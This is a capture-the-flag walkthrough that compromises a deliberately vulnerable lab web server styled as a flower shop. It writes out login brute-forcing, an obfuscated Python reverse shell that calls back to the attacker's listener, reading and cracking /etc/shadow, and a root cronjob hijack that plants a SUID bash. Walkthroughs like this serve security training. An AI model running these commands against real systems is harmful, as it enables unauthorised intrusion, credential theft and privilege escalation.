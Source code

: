 # Flowers by Irene - CTF Walkthrough

**Theme:** A secret agent website is masquerading as an innocent flower shop. Your mission is to infiltrate the system, escalate privileges, and retrieve the hidden flag from the agency's root directory.

---

## 1. Network Reconnaissance

Start with a fast Nmap scan to identify open ports and active hosts on your local subnet.

```bash
nmap -F 192.168.0.0/24
```

- **Discovered:** Host at `192.168.1.111` with HTTP service on **port 8080**

---

## 2. Web Exploration

Navigate to the web server:

```
http://192.168.1.111:8080
```

It looks like a generic flower shop. But... something seems suspicious.

---

## 3. Source Code Inspection

Right-click → *View Page Source*.

You’ll spot a hidden HTML button and a **base64** encoded message.

```html
<button class="toggle-button" onclick="toggleSection()" style="display:none">🔍 More Information</button>

    <script>
        var encodedContent = "T1BFUkFUSU9OIEVWRVJCTE9PTSAtIExldmVsIDcgQ2xlYXJhbmNlIFJlcXVpcmVkCldlbGNvbWUsIGFnZW50LiBZb3UgaGF2ZSBzdWNjZXNzZnVsbHkgYWNjZXNzZWQgdGhlIGNvdmVydCBpbnRlbGxpZ2VuY2UgYnJpZWZpbmcgcG9ydGFsLiBQbGVhc2UgcHJvY2VlZCB0byB0aGUgZGVzaWduYXRlZCByZW5kZXp2b3VzIHBvaW50IGF0ICJUaGUgR3JlZW5ob3VzZSIgd2l0aCBlbmNyeXB0ZWQgb3JkZXJzLgpGb3IgaW1tZWRpYXRlIGFjY2VzcyB0byBjYXNlIGZpbGVzLCBpbnB1dCB5b3VyIGFnZW50IElEIGFuZCBjbGVhcmFuY2UgY29kZSB2aWEgdGhlIHNlY3VyZSBsb2dpbiBwb3J0YWwuIFVuYXV0aG9yaXplZCBhdHRlbXB0cyB3aWxsIGJlIGxvZ2dlZC4=";

        function toggleSection() {
            var section = document.getElementById("hidden-section");
            var decodedContent = atob(encodedContent);
            document.getElementById("decoded-content").innerText = decodedContent;
            
            if (section.style.display === "none" || section.style.display === "") {
                section.style.display = "block";
            } else {
                section.style.display = "none";
            }
        }
    </script>
```

Decode the message using **CyberChef**:

**Output:**
```
OPERATION EVERBLOOM - Level 7 Clearance Required
Welcome, agent. You have successfully accessed the covert intelligence briefing portal. Please proceed to the designated rendezvous point at "The Greenhouse" with encrypted orders.
For immediate access to case files, input your agent ID and clearance code via the secure login portal. Unauthorized attempts will be logged.
```

---

## 4. Directory Enumeration

There seems to be a login portal, let’s see if we can find it by enumerating the hidden directories:

```bash
gobuster dir -u http://192.168.1.111:8080 -w /usr/share/wordlists/dirb/big.txt
```

**Discovered:** `/restricted`

---

## 5. User Reconnaissance

Visit the restricted area and you are introduced with an agent login portal:

```
http://192.168.1.111:8080/restricted
```

Check the page source again. A comment reveals:

```html
<!-- 
    WARNING: DO NOT REMOVE THIS COMMENT. 

    Last time someone deleted this, We lost power for three hours. 
    We’re still not sure why. IT just mumbled something about "arbitrary code" 
    and refused to make eye contact. 

    - P.S. Don’t forget to inform Agent Cain that his agent ID has been changed to 
    "agent.cain-222" at HR's request. Apparently "Cain_the_Destroyer" was "inappropriate."
    -->
```

---

## 6. Brute Force the Login

Fire up **Burp Suite** → Proxy → Intercept the login POST request → Send to **Intruder**.

Use the username `agent.cain-222` and the following password list:

```
/usr/share/wordlists/seclists/Passwords/Common-Credentials/2024-197_most_used_passwords.txt
```

After the brute-force attack:

> **Password found: `1234qwer`**

---

## 7. Agent Dashboard Access

Login with the credentials and you’ll land on **Agent Cain’s Dashboard**.

A button labeled **Access Command Interface** appears. Click it.

---

## 8. Restricted Shell Terminal

Inside the web terminal, your commands are limited.

Try some basics like `ls`, `cd`, and notice restricted access to system files and commands.

Time to break out.

---

## 9. Reverse Shell Escape

Start a listener on your **attacker machine (Kali)**:

```bash
rlwrap nc -lvnp 1234
```

Then, in the web terminal, execute a Python reverse shell:

```python
python3 -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.0.110",1234));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/bash")'
```

You're in.

---

## 10. Shadow File Discovery

Check permissions of shadow:

```bash
ls -l /etc/shadow
```

You're lucky! It's readable.

```bash
cat /etc/shadow
```

Copy the shadow file content and save it to your **attacker machine (Kali)**.

---

## 11. Cracking Passwords

Use **John the Ripper** to crack the password hashes:

```bash
john --format=crypt --wordlist=/usr/share/wordlists/seclists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt shadow
```

**Result:**
> `agent.cain:1234qwer`
> `irene:batman1`

---

## 12. Privilege Escalation via Cronjob

Switch to user **irene**:

```bash
su irene
# password: batman1
```

Check cron jobs:

```bash
journalctl -u cron
```

**Found:** A scheduled cronjob runs `/opt/copy2root` every minute **as root**!

Let’s weaponize it:

```bash
echo "cp /bin/bash /tmp/rootbash" > /opt/copy2root
echo "chmod +s /tmp/rootbash" >> /opt/copy2root
```

Wait 1 minute…

---

## 13. Root Shell Access

Run your new SUID bash shell:

```bash
/tmp/rootbash -p
```

You're now root!

---

## 14. Capture the Flag

Head to the root directory:

```bash
cd /root
ls -la
```

Find a file called `.flag`. It contains 50,000+ words so were going to have to filter for it.

Use `grep` to find the flag:

```bash
cat .flag | grep FLAG
```

---

## Final Flag

> `FLAG{This_flag_will_self-destruct}`

---

### Congratulations.

You’ve successfully uncovered the flag. Mission accomplished.

---
